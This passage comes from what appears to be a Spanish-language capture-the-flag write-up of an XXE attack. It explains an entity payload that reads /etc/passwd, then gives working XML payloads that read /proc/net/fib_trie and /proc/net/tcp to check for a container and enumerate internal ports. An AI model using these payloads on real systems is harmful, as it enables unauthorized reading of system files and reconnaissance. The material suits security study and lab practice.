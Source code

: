 > 1. La línea `<!ENTITY xxe SYSTEM "file:///etc/passwd" >` declara una entidad `XML` llamada `xxe`, que se asocia con el archivo ubicado en `/etc/passwd` en el sistema.
> 2. La parte `&xxe;` invoca el archivo de entidad declarado. Cuando un analizador `XML` vulnerable procesa este `XML`, intenta sustituir `&xxe;` por el contenido del archivo `/etc/passwd`.
{: .prompt-tip }

Después de enviar el payload, podemos observar el contenido del archivo `/etc/passwd` de la máquina de destino.

![passwd](passwd.png)

Luego, verificamos si se trata de un contenedor o no, inspeccionando el archivo `/proc/net/fib_trie`.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///proc/net/fib_trie" >]>

<post>
  <title>Test Post</title>
  <description>Testing...</description>
  <markdown>&xxe;</markdown>
</post>
```

Encontramos la dirección IP de la máquina objetivo, pero no hay direcciones IP disponibles dentro de la subred `172.17.0.0/16` para asignar a los contenedores.

![fib_trie](fib_trie.png)

Esto quiere decir que, si logramos comprometer la web, obtendremos acceso directamente a la máquina víctima y no a un contenedor.

Después de eso, procedemos a realizar una enumeración de los puertos internos del sistema víctima inspeccionando el archivo `/proc/net/tcp`.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///proc/net/tcp" >]>

<post>
  <title>Test Post</title>
  <description>Testing...</description>
  <markdown>&xxe;</markdown>
</post>
```

Copiamos el siguiente resultado y lo pegamos en un archivo de nombre "data".

![ports](ports.png)
